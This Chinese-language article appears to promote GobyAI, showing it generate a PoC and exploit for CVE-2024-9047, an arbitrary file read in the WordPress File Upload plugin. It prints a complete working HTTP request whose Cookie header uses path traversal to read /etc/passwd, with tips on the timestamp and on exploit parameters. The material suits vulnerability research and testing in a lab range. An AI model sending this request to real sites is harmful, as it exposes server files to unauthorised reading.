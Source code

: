 ## GobyAI智能生成EXP：CVE-2024-9047 WordPress File Upload 插件 /wfu_file_downloader.php 任意文件读取漏洞



摘要：本片描述如何使用Goby AI 智能输出高危漏洞PoC/EXP：“WordPress File Upload 插件 /wfu_file_downloader.php 任意文件读取漏洞(CVE-2024-9047)”



可以先查看此漏洞的公开参考详情：

https://mp.weixin.qq.com/s/u8Ik40iBuxgKfH7WDrzijQ

查看漏洞详情，我们可以了解到，此漏洞成因是位于 /wp-content/plugins/wp-file-upload/wfu_file_downloader.php 中的wfu_fopen_for_downloader 方法存在fopen 函数导致文件读取操作，实际在 wfu_download_file 方法就调用到了该函数。通过伪造请求中的cookie参数（文件名称及时间戳），利用fopen函数实现任意文件读取。

智能体首先解析出的文本和图片内容，提取漏洞背景描述、请求包和响应包等关键信息，提取出漏洞类型为文件读取，分配文件读取智能体对请求包及响应包进行分析。

直接输入公开参考详情链接，GobyAI的智能输出结果如下：

# 漏洞信息

智能体提取文本中的 产品名、漏洞路径、漏洞类型、CVE编号等信息，自动以 “产品名称+漏洞路径+漏洞类型+(CVE编号)"的格式生成漏洞名称

1.智能生成漏洞名称；

2.提取FOFA指纹信息；

3.根据页面内容智能分析漏洞描述、影响版本、解决方案、cvss评分等信息。



## 扫描测试

自动构造请求包：

（需要注意的是：Payload中请求包中的时间戳需手动修改为精准在分钟内的任意时间戳即可，可以直接替换为：1735095641153454600）

`GET /wp-content/plugins/wp-file-upload/wfu_file_downloader.php?file=pQ1DyzbQp5hBxQpW&ticket=Hw8h7dBmxROx27ZZ&handler=dboption&session_legacy=1&dboption_base=cookies&dboption_useold=0&wfu_cookie=wp_wpfileupload_939a4dc9e3d96a97c2dd1bdcbeab52ce HTTP/1.1`
`Host: 127.0.0.1`
`Upgrade-Insecure-Requests: 1`
`User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36`
`Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9`
`Accept-Encoding: gzip, deflate`
`Accept-Language: zh-CN,zh;q=0.9`
`Cookie: wp_wpfileupload_939a4dc9e3d96a97c2dd1bdcbeab52ce=cfyMMnYQqNBbcBNMLTCDnE7ezEAdzLC3; wfu_storage_pQ1DyzbQp5hBxQpW=/../../../../../etc/passwd[[name]]; wfu_download_ticket_Hw8h7dBmxROx27ZZ=时间戳; wfu_ABSPATH=/;` 
`Connection: close`


![](https://s3.bmp.ovh/imgs/2024/12/25/78d083a586adb919.png)



自动填写响应包：

提取特征信息，若响应包中存在特征则证明漏洞存在。：

![](https://s3.bmp.ovh/imgs/2024/12/25/1cdc72f07dae07f6.png)


## 利用测试

利用输入（EXP Params）：

智能体提取的文件访问路径将自动填入 EXP 参数中。

验证方式支持两种选择：

● 默认方式（default)，直接使用文章中已有的访问路径；

● 用户自定义方式(custom)，允许用户指定输出的访问路径以满足特定需求

![](https://s3.bmp.ovh/imgs/2024/12/25/33bb6186e75bb821.png)

同时，智能体会将访问文件路径替换为变量，并填充至 EXP Params 中，方便用户查看和自定义输入访问路径。

![](https://s3.bmp.ovh/imgs/2024/12/25/9dbf9000959d849d.png)



利用输出（output）：

智能体通过正则表达式，提取响应包中lastbody中的所有内容进行输出。

![](https://s3.bmp.ovh/imgs/2024/12/25/be9cb31fea697a3e.png)


# 实战检验流程

输入靶场目标进行扫描，确认PoC扫描测试准确性：√

![](https://s3.bmp.ovh/imgs/2024/12/25/0ada57862db88e4d.png)

点击验证，检测EXP输出信息的准确性：√

![](https://s3.bmp.ovh/imgs/2024/12/25/d925d52f04654a0d.png)
